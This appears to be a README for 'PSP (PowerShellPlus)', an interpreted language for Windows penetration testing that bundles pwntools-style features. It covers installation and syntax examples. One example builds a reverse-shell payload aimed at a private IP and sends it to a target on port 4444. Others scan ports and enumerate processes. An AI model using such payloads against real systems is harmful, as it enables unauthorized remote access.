 - [문법 가이드](docs/syntax.md) - PSP 언어 문법 상세 설명
- [API 레퍼런스](docs/api_reference.md) - 모든 내장 함수 설명
- [튜토리얼](docs/tutorial.md) - 단계별 학습 가이드

---

## 🔥 Overview (English)

PSP (PowerShellPlus) is a specialized programming language designed for white hat hackers and security professionals to efficiently perform penetration testing and security assessments in Windows environments.

It incorporates all features from Python's pwntools and winpwn libraries as built-in functions, combining the syntactic advantages of C, PowerShell, and Python to provide an intuitive and powerful security testing tool.

### 🎯 Key Features

- **Windows Optimized**: Security testing features optimized for Windows systems
- **Built-in Hacking Tools**: All pwntools and winpwn features included by default
- **Concise Syntax**: Hybrid syntax combining C + PowerShell + Python
- **Immediate Execution**: Interpreted language that runs without compilation
- **Extensible**: Module system for feature extension

### 🚀 Installation & Usage

```bash
# Run PSP interpreter
python src/psp_interpreter.py example.pspp

# Interactive mode
python src/psp_interpreter.py -i

# Help
python src/psp_interpreter.py --help
```

### 📝 Basic Syntax Examples

```psp
# Network scanning
target = "192.168.1.100"
open_ports = scan_range(target, 1, 1000)
print("Open ports:", open_ports)

# Payload generation
payload = create_payload("reverse_shell", "192.168.1.50")
send(target, 4444, payload)

# System information gathering
processes = enum_processes()
printf("Running processes: %d", len(processes))

# Hash calculation
password_hash = sha256("admin123")
print("SHA256:", password_hash)
```
